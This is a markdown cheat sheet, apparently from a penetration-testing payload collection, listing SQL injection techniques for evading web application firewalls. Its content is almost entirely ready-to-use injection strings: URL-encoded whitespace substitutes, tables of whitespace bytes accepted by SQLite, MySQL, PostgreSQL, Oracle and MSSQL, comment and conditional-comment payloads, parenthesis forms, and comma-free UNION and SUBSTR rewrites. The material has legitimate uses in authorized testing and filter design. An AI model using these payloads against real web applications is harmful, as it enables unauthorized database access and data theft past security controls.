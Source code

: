 
## Generic WAF Bypass
---

### White Spaces

Bypass using whitespace alternatives.

| Bypass                   | Technique              |
| ------------------------ | ---------------------- |
| `?id=1%09and%091=1%09--` | Whitespace alternative |
| `?id=1%0Aand%0A1=1%0A--` | Whitespace alternative |
| `?id=1%0Band%0B1=1%0B--` | Whitespace alternative |
| `?id=1%0Cand%0C1=1%0C--` | Whitespace alternative |
| `?id=1%0Dand%0D1=1%0D--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |

| DBMS       | ASCII characters in hexadecimal |
| ---------- | ------------------------------- |
| SQLite3    | 0A, 0D, 0C, 09, 20 |
| MySQL 5    | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL 3    | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

Bypass using comments and parenthesis.

| Bypass                                    | Technique            |
| ----------------------------------------- | -------------------- |
| `?id=1/*comment*/AND/**/1=1/**/--`        | Comment              |
| `?id=1/*!12345UNION*//*!12345SELECT*/1--` | Conditional comment  |
| `?id=(1)and(1)=(1)--`                     | Parenthesis          |

### No Comma Allowed

Bypass using `OFFSET`, `FROM` and `JOIN`.

| Forbidden           | Bypass |
| ------------------- | ------ |
| `LIMIT 0,1`         | `LIMIT 1 OFFSET 0` |
| `SUBSTR('SQL',1,1)` | `SUBSTR('SQL' FROM 1 FOR 1)` |
| `SELECT 1,2,3,4`    | `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d` |
